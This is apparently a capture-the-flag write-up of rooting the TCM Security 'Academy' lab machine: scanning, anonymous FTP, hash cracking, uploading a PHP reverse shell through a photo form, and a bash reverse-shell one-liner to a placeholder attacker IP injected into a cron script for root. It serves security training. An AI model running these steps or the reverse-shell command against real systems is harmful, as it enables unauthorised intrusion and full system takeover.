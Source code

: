 # Academy Box - Provided by TCM Security

- Box has IP address `10.0.2.10`

## Scanning and Enumeration 
- Running nmap scan against target machine

    ![Nmap Results](./screenshots/2022-03-03-22-37-33.png)

- Interest findings 
  - Port `21/tcp - ftp - Anonymous FTP login allowed - vsftpd 3.0.3`
  - Port `22/tcp - SSH - OpenSSH 7.9p1 Debian` 
  - Port `80/tcp - http - Apache2 httpd 2.4.38`
  - OS details - `Linux 4.15 | 5.6`

- Since I found port `80` open, running `nikto` against target 
  
  ![Nikto results](./screenshots/2022-03-03-22-50-28.png)

- Also ran `Disbuster` 
  
  ![Dirbuster](./screenshots/2022-03-03-23-16-19.png)


## Research 
- `Anonymous FTP login allowed (FTP code 230)` was interesting in the results. 
  - Found this site - [Anonymous Login](https://vk9-sec.com/anonymous-login/)

## Exploitation

- Using `auxiliary/scanner/ftp/anonymous` module to detect anonymous FTP access

    ![Anonymous FTP](./screenshots/2022-03-03-22-56-35.png)
    
    - Results show anonymous login has `READ` permissions

- Used `anonymous` user to connect to FTP target machine 

    ![FTP Anonymous Connection](./screenshots/2022-03-03-23-01-59.png)

- I was able to get the `note.txt` from the target. These are the contents of it

    ![note.txt contents](./screenshots/2022-03-03-23-05-06.png)

- Grabbed the hash from the file and used `hash-identifier`, determined it was an `MD5` hash 

    ![hash-identifier](./screenshots/2022-03-03-23-09-19.png)

- Used `hashcat` to crack the hash which turned out to be `student`

    ![Hashcat](./screenshots/2022-03-03-23-15-16.png)

- Grabbed the Registration number from `note.txt` and the cracked password to login. 
- Once logged in was prompted to change password, so I went ahead and did that. 

![Logged in](./screenshots/2022-03-03-23-20-58.png)

- Used a [`php-reverse-shell`](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) by uploading it to the site using the photo upload 

![Uploaded File](./screenshots/2022-03-04-17-14-33.png)

- Set `netcat` to listen on the port the exploit uses 

  ![Popped Shell](./screenshots/2022-03-04-17-14-09.png)


## Privilege Escalation 
- Downloaded `linpeas.sh` and put it in a transfer folder. 
- Then used python to host a web server and then did `wget` on the victim machine 

  ![Attacker Web server](./screenshots/2022-03-04-17-26-57.png)

  ![Victim machine](./screenshots/2022-03-04-17-27-07.png)

- Ran `linpeas.sh` on the victim machine
- Found user `grimmie` and a password - was able to ssh using these credentials 

  ![SSH connection](./screenshots/2022-03-04-17-51-00.png)

- Found file `/home/grimmie/backup.sh` - and figured out it runs every minute 
- Added a bash reverse shell one-liner - `bash -i >& /dev/tcp/ATTACK_IP/PORT 0>&1`
- Set netcat to listen on port 

  ![Reverse Shell](./screenshots/2022-03-04-18-08-33.png)

- Executes as `root` and pops a `root` shell on the attacker machine 

  ![Root Shell](./screenshots/2022-03-04-18-11-27.png)

- Found `flag.txt`

  ![flag.txt](./screenshots/2022-03-04-18-12-52.png)